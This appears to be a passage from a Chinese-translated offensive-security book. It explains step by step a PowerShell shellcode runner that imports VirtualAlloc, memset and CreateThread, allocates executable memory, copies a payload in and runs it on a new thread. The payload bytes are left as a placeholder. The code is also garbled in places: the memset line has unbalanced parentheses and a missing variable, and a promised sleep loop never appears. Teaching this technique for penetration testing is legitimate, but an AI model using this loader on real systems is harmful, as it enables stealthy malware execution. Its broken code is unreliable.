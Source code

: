 首先，我们将用 C# 签名定义函数；这些函数将存储在名为 `$signatures` 的变量中。然后，我们使用 `Add-Type` 将它们引入我们的 PowerShell 会话。我们来看看：

```
$signatures = '[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
```

```
[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId); 
```

```
[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'; 
```

```
$functionImport = Add-Type -MemberDefinition $signatures -Name "Win32" -NameSpace Win32Functions -PassThru;
```

好的，这并没有那么痛苦。我们创建了 `$signatures` 变量，并且在其中包含了将两个 DLL 中的三个函数引入的代码。最后，我们创建了一个名为 `$functionImport` 的对象，它现在包含了这些函数。从这时起，我们只需要与 `$functionImport` 交互来调用这些函数。

现在，我们需要创建一个名为`$shellcode`的字节数组。这个数组将包含我们有效负载的每个字节，我们将使用`For`循环来依次引用每个元素：

```
[Byte[]] $shellcode = <Tasty Bytes Go Here>; 
```

```
$size = $shellcode.Length
```

```
$allocSpace = $functionImport::VirtualAlloc(0, $size, 0x3000, 0x40);
```

请注意，我们告诉`VirtualAlloc()`精确的 shellcode 大小。其他参数呢？在你解析这段代码（以及你未来在职业生涯中遇到的其他代码）时，注意我们最初是如何定义这些参数的：`IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect`。这告诉我们，`VirtualAlloc()`将按顺序期待一个地址、一个大小、一个分配类型以及分配空间中将使用的内存保护类型。像往常一样，我鼓励你跳出这些页面，深入了解更多细节。

我们的倒数第二步是使用`memset()`将我们分配空间的每个位置设置为来自 shellcode 的一个字符。正如你能想象的那样，最佳的实现方式是使用`For`循环。我们将声明一个名为`$position`的计数器，并随着它的递增，`memset()`会将相应的字节设置到分配空间中，使用`$position`作为偏移量，结合`$allocSpace`来确定确切的位置：

```
For ($position = 0; $position -le ($shellcode.Length - 1); $position++) { 
```

```
    $functionImport::memset(IntPtr + $position), $shellcode[$position], 1) 
```

```
};
```

陷阱已设下。我们只需要执行它。正如你从我们定义`$signatures`时记得的，传递给`CreateThread()`的第三个参数是起始地址——在这个例子中就是`$allocSpace`。最后，为了在新线程运行时保持进程的持续运行，我们使用`While ($true)`来创建一个无限休眠。或许有一天会做个美梦？

```
$functionImport::CreateThread(0, 0, $allocSpace, 0, 0, 0); 
```
